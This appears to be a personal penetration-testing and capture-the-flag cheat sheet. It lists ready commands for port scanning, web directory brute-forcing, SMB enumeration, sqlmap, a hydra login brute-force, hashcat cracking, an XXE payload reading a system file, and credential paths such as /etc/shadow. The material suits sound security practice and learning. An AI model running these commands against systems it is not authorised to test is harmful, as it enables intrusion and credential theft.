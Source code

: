 Scanning
========

Rustscan
--------

Scan an IP:
```
rustscan -a $RHOSTS --ulimit 5000 --range 1-65535 -- -oX $PROJECTDIR/nmap.xml -sC
```

Nmap
----

Scan TCP Ports:
```
sudo nmap -sV $RHOSTS -oX $PROJECTDIR/nmap.xml
```
	
Scan TCP ports and run scripts against open ports:
```
sudo nmap -sV -sC $RHOSTS -oX $PROJECTDIR/nmap.xml
```
	
Scan UDP ports and run scripts against open ports:
```
sudo nmap -sU -sC $RHOSTS -oX $PROJECTDIR/nmap-udp.xml
```

nmap ignore firewall
```
sudo nmap -sV -sC -Pn $RHOSTS -oX $PROJECTDIR/nmap.xml
```

Scan for smb vulns
```
sudo nmap --script smb-vuln* -p 445 -oA nmap/smv_vuln $RHOSTS -oX $PROJECTDIR/nmap-smb.xml
```

CURL
----

Send HEAD request to IP:80
```
curl -I http://$RHOST/
```

GoBuster
--------

Quick scan of URL
```
gobuster dir --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt --url $RURL --output $PROJECTDIR/gobuster.txt
```

Moderately thurough scan
```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --url $RURL --output $PROJECTDIR/gobuster.txt
```

Scan for PHP paths
```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -e -s "200,301,302,401" -x "php" -t 100 --url $RURL --output $PROJECTDIR/gobuster.txt
```

Scan a big list of directories
```
gobuster dir --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt --url $RURL --output $PROJECTDIR/gobuster-big.txt
```

Scan common directories
```
gobuster dir --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --url $RURL --output $PROJECTDIR/gobuster-common.txt
```

Scan bit list of files
```
gobuster dir --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt --url $RURL --output $PROJECTDIR/gobuster-raft.txt
```

SMBClient
---------

Identifying open shares with directory listing:
```
while read i; do smbmap -H $i 2>/dev/null; done < <Target IP File> | grep -v Finding | grep -v Authentication
```

Vulnerable XML through external entities
```
Vulnerable XML:
	<!DOCTYPE root [<!ENTITY test SYSTEM "c:/windows/win.ini"> ]>
	...
	&test;
	...
```

Crypto
------

Check a public key
```
openssl rsa -noout -text -inform PEM -in Weak\ RSA/key.pub -pubin
```

Break RSA
```
cd ~/RsaCtfTool
python3 RsaCtfTool.py
```

Understand files
----------------

Discover the type of a file
```
file {filename}
```

Discover file that contains other magic numbers
```
binwalk --signature --term {filename}
```

WPScan
------

```
sudo gem install wpscan
wpscan --url $URL --detection-mode aggressive
```

General Vulnerability Scan
--------------------------
```
nikto --host $URL
```

Useful Linux Paths
------------------

```
/etc/passwd
/etc/shadow
/etc/crontab
```

Bruteforce a login page
-----------------------

[Guide](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/)

```
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt $RHOST http-post-form "/login.php:username=admin&password=^PASS^:Invalid Username or Password"
---

Reverse a hash
--------------

```
echo "{salt}" > hash
hashcat -a 0 -m 500 hash /usr/share/wordlists/rockyou.txt
```

GDB
---

Check security on a binary
```
checksec $file
```

wfuzz
-----

Fuzz for parameters:
```
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "$RURL?known=param&FUZZ=param" --hh [[EXPECTED CHARS LENGTH]]
```

sqlmap
------

Look for vulnerable payloads by fuzzing a request.  To get `request.txt` submit a form using burpsuite then save the raw request as `request.txt` in `$PROJECTDIR`.
```
sqlmap -r $PROJECTDIR/request.txt --dbs
```

autorecon
---------

```
autorecon $RHOSTS
```
